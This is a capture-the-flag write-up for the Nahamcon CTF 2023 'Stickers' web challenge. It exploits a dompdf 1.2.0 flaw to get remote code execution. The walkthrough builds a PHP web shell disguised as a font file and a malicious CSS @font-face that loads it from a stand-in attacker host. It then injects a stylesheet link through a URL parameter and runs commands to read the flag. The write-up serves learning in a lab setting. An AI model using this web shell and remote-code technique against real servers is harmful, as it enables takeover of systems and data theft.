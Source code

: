 ```yaml
---
name: Stickers (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Stickers (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Stickers

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=247 "Nahamcon CTF 2023: Stickers (Web)")

## Description

> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
> Find the flag file in /flag.txt at the root of the filesystem.

## Solution

Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted `{{7 * 7}}` as the name, but it just rendered as text.

When we submit, the URL looks like: `http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1`

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version `þÿdompdf 1.2.0`.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation:
https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.

{% code overflow="wrap" %}
```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```
{% endcode %}

Add a shell at the bottom of the file.

{% code overflow="wrap" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endcode %}

Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. `/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`.

{% code overflow="wrap" %}
```css
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}
```
{% endcode %}

Create a python web server and expose using ngrok.

{% code overflow="wrap" %}
```
sudo python -m http.server 80
ngrok http 80
```
{% endcode %}

Make a request containing the malicious stylesheet.

{% code overflow="wrap" %}
```bash
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
```
{% endcode %}

Calculate the MD5 of the malicious PHP URL.

{% code overflow="wrap" %}
```bash
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
```
{% endcode %}

Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call `cat /flag.txt` and receive the flag.

Flag: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`
